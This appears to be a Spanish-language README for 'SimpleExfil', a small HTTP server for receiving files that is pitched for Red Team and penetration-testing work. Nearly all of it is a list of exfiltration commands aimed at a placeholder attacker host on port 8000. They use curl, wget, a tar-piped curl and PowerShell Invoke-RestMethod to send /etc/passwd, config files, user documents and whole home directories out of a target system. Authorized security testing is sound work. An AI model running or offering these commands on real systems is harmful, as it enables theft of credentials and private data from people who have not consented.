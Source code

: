 # SimpleExfil
Un servidor HTTP simple para recepción de archivos diseñado para actividades de Red Team y Penetration Testing.

### - Exfiltrar archivos desde sistema objetivo
bash# curl -X POST -F "file=@/etc/passwd" http://[IP-ATACANTE]:8000
bash# wget --post-file=/path/to/file http://[IP-ATACANTE]:8000

### - Subir múltiples archivos
curl -X POST -F "file=@documento.txt" -F "file=@config.conf" http://[IP-ATACANTE]:8000

### - Comprimir y subir directorio
tar czf - /home/user/documents/ | curl -X POST -F "file=@-;filename=documents.tar.gz" http://[IP-ATACANTE]:8000

### - PowerShell (Windows)
powershell# Invoke-RestMethod -Uri "http://[IP-ATACANTE]:8000" -Method Post -InFile "C:\Users\user\document.txt" -ContentType "multipart/form-data"
